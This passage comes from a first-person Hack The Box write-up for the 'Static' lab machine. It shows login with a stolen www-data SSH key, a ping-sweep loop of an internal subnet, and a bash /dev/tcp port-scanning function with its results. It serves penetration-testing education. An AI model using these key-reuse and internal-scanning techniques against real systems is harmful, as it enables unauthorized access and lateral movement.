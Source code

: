 ## User SSH Access

This didn't work but interestingly we can connect to the web server on it's 172 IP using www-data's SSH key:

```sh
┌──(root💀kali)-[~/htb/static]
└─# ssh -i id_rsa www-data@172.20.0.10 
Last login: Wed Nov  3 21:38:58 2021 from 10.10.15.41
www-data@web:~$
```

And we can also use it to connect to the main Static box but on port 2222 which we saw from the initial scan was also running SSH:

```sh
┌──(root💀kali)-[~/htb/static]
└─# ssh -i id_rsa www-data@10.10.10.246 -p 2222
Last login: Mon Jun 14 08:00:30 2021 from 10.10.14.4
www-data@web:~$
```

To keep it simple I dropped out of the web VPN and carried on using SSH direct to the box for now. Nothing obvious jumped out until I looked at the network connections

```sh
www-data@web:/$ ifconfig eth1
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.254.2  netmask 255.255.255.0  broadcast 192.168.254.255
        ether 02:42:c0:a8:fe:02  txqueuelen 0  (Ethernet)
        RX packets 392  bytes 361065 (361.0 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 498  bytes 36481 (36.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

We have a second connection to a different network, with no nmap on the box I did a simple loop to scan the network:

```text
www-data@web:/$ for i in {1..254} ;do (ping -c 1 192.168.254.$i | grep "bytes from" &) ;done
64 bytes from 192.168.254.1: icmp_seq=1 ttl=64 time=0.097 ms
64 bytes from 192.168.254.2: icmp_seq=1 ttl=64 time=0.048 ms
64 bytes from 192.168.254.3: icmp_seq=1 ttl=64 time=0.088 ms
```

We get a response from two IPs aswell as our own. Let's scan them for open ports using [this](https://coderwall.com/p/udnrjq/port-scanning-with-bash-without-sudo-nmap-or-nc) helpful bashfu:

```sh
www-data@web:/$ nmap2 () {
> [[ $# -ne 1 ]] && echo "Please provide server name" && return 1
> 
> for i in {1..9000} ; do
>   SERVER="$1"
>   PORT=$i
>   (echo  > /dev/tcp/$SERVER/$PORT) >& /dev/null &&
>    echo "Port $PORT seems to be open"
> done
> }

www-data@web:/$ nmap2 192.168.254.1
Port 22 seems to be open
Port 2222 seems to be open

www-data@web:/$ nmap2 192.168.254.2
Port 22 seems to be open
Port 80 seems to be open

```